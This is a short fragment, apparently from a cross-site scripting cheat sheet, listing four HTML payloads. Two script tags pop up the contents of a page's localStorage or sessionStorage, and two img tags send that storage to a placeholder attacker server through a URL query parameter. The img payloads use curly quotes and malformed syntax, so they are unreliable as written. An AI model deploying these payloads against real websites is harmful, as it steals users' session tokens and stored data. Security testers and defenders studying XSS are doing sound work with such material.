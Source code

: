 <b>`localStorage` in `alert`:</b>
```html
<script>alert(JSON.stringify(localStorage))</script>
```
<b>`sessionStorage` in `alert`:</b>
```html
<script>alert(JSON.stringify(sessionStorage))</script>
```
<b>`localStorage` stealing:</b>
```html
<img src=’https://{Attacker_server}/?storage=’+JSON.stringify(localStorage);’--!>
```
<b>`sessionStorage` stealing:</b>
```html
<img src=’https://{Attacker-server}/?storage=’+JSON.stringify(sessionStorage);’--!>
```
